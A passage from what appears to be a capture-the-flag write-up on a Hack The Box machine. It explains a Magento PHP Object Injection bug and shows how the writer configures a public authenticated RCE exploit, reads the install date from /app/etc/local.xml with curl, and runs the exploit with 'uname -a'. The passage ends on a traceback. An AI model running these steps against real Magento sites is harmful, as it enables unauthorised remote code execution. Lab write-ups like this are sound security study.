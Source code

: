 After looking through these, the authenticated RCE python script looked the most interesting.

For background on this bug, it’s a PHP Object Injection vulnerability, detailed by one of the researchers who found it [here](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/). PHP Object Injection is a class of bugs that falls under deserialization vulnerabilities. Basically, the server passes a php object into the page, and when the browser submits back to the server, it sends that object as a parameter. To prevent evil users from messing with the object, Magento uses a keyed hash to ensure integrity. However, the key for the hash is the install data, which can be retrieved from `/app/etc/local.xml`. This means that once I have that date, I can forge signed objects and inject my own code, which leads to RCE.

I’ll make a copy of the POC from `searchsploit`:

```

root@kali# searchsploit -m exploits/php/webapps/37811.py
  Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37811
     Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/hackthebox/swagstore-10.10.10.140/37811.py

```

I’ll rename to `magento_rce.py`, and open it up and take a look. In the config section, I’ll have to update 3 fields:

```

# Config.
username = 'ypwq'
password = '123'
php_function = 'system'  # Note: we can only pass 1 argument to the function
install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml

```

I got the date from the page as suggested:

```

root@kali# curl -s 10.10.10.140/app/etc/local.xml | grep date
            <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>

```

When I run it, I get an error:

```

root@kali# python magento_rce.py http://10.10.10.140 "uname -a"
Traceback (most recent call last):
  File "magento_rce.py", line 56, in <module>
    br['login[password]'] = password
  File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 2780, in __setitem__
    control = self.find_control(name)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3101, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3185, in _find_control
    raise ControlNotFoundError("no control matching "+description)
mechanize._form.ControlNotFoundError: no control matching name 'login[password]'

```
